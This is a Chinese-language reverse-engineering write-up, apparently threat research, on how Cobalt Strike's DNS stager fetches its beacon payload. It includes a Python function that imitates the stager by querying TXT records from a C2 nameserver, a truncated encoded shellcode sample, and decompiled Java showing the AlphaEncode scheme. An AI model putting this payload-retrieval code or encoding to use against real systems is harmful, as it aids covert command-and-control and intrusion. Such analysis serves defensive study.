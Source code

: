 ​		不难发现，每次请求域名中的第一个子域都是固定三个字母，并按照一定顺序进行排列。排列规则看起来是包含26个字母的集合连续进行了2次笛卡尔积。所以很容易就可以模拟Stager Beacon从Cobalt Strike DNS服务请求数据。

```python
def stager():
    buff = ""
    str1 = 'abcdefghijklmnopqrstuvwxyz'
    resolver = dns.resolver.Resolver()
    resolver.nameservers = ['192.168.100.101']
    for i in product(str1, str1, str1):
        dnsc = '{0}.feeds.123456.ns.dns.com'.format(''.join(i[::-1])).strip()
        try:
            text = resolver.resolve(dnsc, 'txt')[0].to_text().strip('"')
        except NoNameservers:
            break
        except:
            return
        if text=="":
            break    
        #time.sleep(0.3)
        buff = buff + text
    return buff
```

​		查询结束后，将得到的数据进行拼接，最终数据可简单表示如下：

```c
.resources.123456.WYIIIIIIIIIIIIIIII7QZjAX...8ioYp8hnMyoYoIoAAgogoJAJAJAJAJAJAJAJAJAENFKFCEFOIAAAAAAAAFLIJNPFFIJOFIBMDPPHJAAAAPPNDGIPALFKCFGGIAEAAAAAAFHPPNAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAPAAAAAAAHKDPGLIOCHPPLNKGNJINHEIMMEABKBEIKCFPBOAOAHDDPPFPKOGFBCDFFODANEJGBDANKODPGJIIIIPDDCODOGNCBLCMHHMPCEBNBMJKCF...AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
```

​		由于数据并不直观，所以还需要逆向Cobal Strike的jar包源代码还原数据处理的过程。在使用Idea反编译后，可以直接定位到加密的入口是在beacon\beaconDns.java中的setPayloadStage()函数，而传入的数据var1则是DNS Beacon的Shellcode，也就是Stager Beacon请求的最终数据。

```java
public void setPayloadStage(byte[] var1) {
    this.stage = this.c2profile.getString(".dns_stager_prepend") + ArtifactUtils.AlphaEncode(var1);
}
```

​		setPayloadStage()函数首先获取的是profile中dns_stager_prepend值，也就是.resource.123456.，然后调用了AlphaEncode()函数加密Shellcode并与前面获取的值拼接。

​		跟进AlphaEncode()函数发现其位于common\BaseArtifactUtils.java

```java
public static String AlphaEncode(byte[] var0) {
    AssertUtils.Test(var0.length > 16384, "AlphaEncode used on a stager (or some other small thing)");
    return _AlphaEncode(var0);
}
​
public static String _AlphaEncode(byte[] var0) {
    String var1 = CommonUtils.bString(CommonUtils.readResource("resources/netbios.bin"));
    var1 = var1 + "gogo";
    var1 = var1 + NetBIOS.encode('A', var0);
    var1 = var1 + "aa";
    return var1;
}
```
